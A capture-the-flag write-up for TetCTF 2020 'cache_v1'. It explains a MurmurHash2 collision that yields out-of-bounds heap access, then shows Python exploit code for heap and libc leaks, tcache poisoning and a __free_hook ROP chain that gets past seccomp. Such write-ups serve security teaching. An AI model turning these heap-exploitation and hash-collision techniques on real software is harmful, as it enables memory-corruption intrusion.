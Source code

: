 # TetCTF 2020 - cache_v1
## Introduction
- **Given files:** `cache`, `cache.cpp`, `libc-2.31.so`, `ld-2.31.so`.
- **Description:** `Flag stored in /home/cache/flag`
- **Category:** Pwnable (actually `crypwn`, to be exact)
- **Summary:** A `C++` glibc 2.31 heap challenge with `seccomp` rules that is very strict. We are given the source file for this challenge, so reverse engineering it is not a problem. The challenge also requires some math and crypto knowledge.

## TL;DR
1. Analyze the source code -> Found that the `caches` use the `name`'s `std::hash` as the key -> Maybe vulnearable to hash collision.
2. Find two names whose hashes collide -> Create a small cache first, then create a large one that collides with it will cause an out-of-bound read and write.
3. Setup the heap perfectly to exploit.
4. Use OOB read to leak `heap` and `libc`.
5. Use OOB write to poison tcache -> overwrite `__free_hook` into ROP to workaround `seccomp` and read the flag.
   
## Analyzing the source code
This program is a cache management system implemented in C++, it has the following functionalities:
- `Create` a cache with a unique name and (almost) arbitrary positive size (the upper bound is very high).
- `Read` data from a cache at an offset.
- `Write` data to a cache at an offset.
- `Erase` a cache.

The `create` cache option uses a global `unordered_map` called `caches` to keep track of created caches. It is indexed by a key which is the `std::hash<std::string>{}(name)` of the inputted `name`. This is maybe vulnearable to a hash collision attack, because if we can find two names that have the same hash, we can overlap a cache's size with another's:
```cpp
caches[std::hash<std::string>{}(name)].size = size;
```

Also, the cache's chunk to store the content on the heap is only created when we try to `write` into it, not when we `create` it, so we can write to a small cache to create a small chunk, then over write the size with the large one.

Because I couldn't find another vulnerability in the implementation, this is the path that I followed.

Also, this is the output of `seccomp-tools dump` on the binary:
```
line  CODE  JT   JF      K
=================================
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x07 0x00 0x40000000  if (A >= 0x40000000) goto 0011
0004: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0012
0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
0008: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0012
0009: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0012
0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
0011: 0x06 0x00 0x00 0x00000000  return KILL
0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

## Finding hash collision (crypto part)
I don't know much about math and cryptography, so I started googling to see which hashing algorithm does `C++` standard library use. It lead me to [this site](https://sites.google.com/site/murmurhash/), where most variances of `MurmurHash` is implemented. The version that `C++` standard library uses in a 64-bit environment is `MurmurHash2Unaligned`, which is implemented as `MurmurHash64A` in `MurmurHash2_64.cpp`.

More googling on how to collide this hash lead me to [this post](http://emboss.github.io/blog/2012/12/14/breaking-murmur-hash-flooding-dos-reloaded/), which shows in details how to create collided keys for `MurmurHash2`. The implementation of `MurmurHash2` in the blog post is almost identical to the one in `C++`, except some constants. I asked my team's crypto player `@pcback` to read it and try to re-implement it for me, and he came up with this script:
```python
INV_MAGIC = 0x5f7a0ea7e59b19bd
R = 16
MASK64 = 0xffffffffffffffff
DIFF = b"\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00\x80"
m = (0xc6a4a793 << 32) | 0x5bd1e995
h = (0xc70f6907 ^ (16 * m)) & (2**64 - 1)
r = 47

def unshiftRight(x, shift):
    res = x
    for i in range(64):
        res = x ^ res >> shift
    return res

def invert64(n):
    x = (n * 0x5f7a0ea7e59b19bd) & MASK64
    x = unshiftRight(x, r)
    x = (x * 0x5f7a0ea7e59b19bd) & MASK64
    return int.to_bytes(x, 8, 'little')

a = b'A'*16
b = bytes(x^y for x,y in zip(a,DIFF))

x1, x2 = int.from_bytes(a[:8], 'little'), int.from_bytes(a[8:], 'little')
y1, y2 = int.from_bytes(b[:8], 'little'), int.from_bytes(b[8:], 'little')

print((invert64(y1) + invert64(y2)).hex())
print((invert64(x1) + invert64(x2)).hex())
```
The script provides two strings whose hashes collide (hex-encoded):
```
c2c48614896beac4c2c48614896beac4
c2c4c9faed854236c2c4c9faed854236
```
With that in hands, I could continue with the exploit.

## Setup the heap
With the hash collision in hands, my plan was clear: Create a small cache, then collide it with a larger one to achieve out-of-bound read and write through that cache. The first step is to perfectly construct the heap so that I could read/write all the stuffs I need:
```python
# Create a small cache to collide on later
create(collide1, 0x30) 
write(collide1, 0, 8, "A"*8)

# Create victim caches to poison
create("victim1", 0x100) 
write("victim1", 0, 8, "B"*8)
create("victim2", 0x100) 
write("victim2", 0, 8, "C"*8)

# Create large cache to leak libc
create("leak", 0x2000) 
write("leak", 0, 8, "D"*8)

# Create padding cache to avoid consolidate
create("padd", 0x40) 
write("padd", 0, 8, "E"*8)

# Collide the first cache with a very large one
create(collide2, 0x2000) 
```

With the above setup, I have two small `victim` chunks to poison later, and a large chunk that will go into `unsorted bin` when freed to leak `libc`.

## Leak heap and libc
Simply read a heap pointer that is stored somewhere on the heap to leak `heap`, and free the large chunk to leak `libc`:
```python
# Leak heap
read(collide2, 0x40, 8)
heap = u64(r.recv(8)) - 0x144d0
log.info("heap: {}".format(hex(heap)))

# Erase large cache, leak libc
erase("leak")
read(collide2, 0x380, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```

## Tcache poisoning
Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I then could overwrite `__free_hook` and also had all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write(collide2, 0x200, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x124b0             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=NvOHijJqups}
```

## Appendix
The MurmurHash2 implementation in `C++` standard library is `MurmurHash2.cpp`.

The script for finding hash collision is `collide.py`.

The full exploit is `a.py`.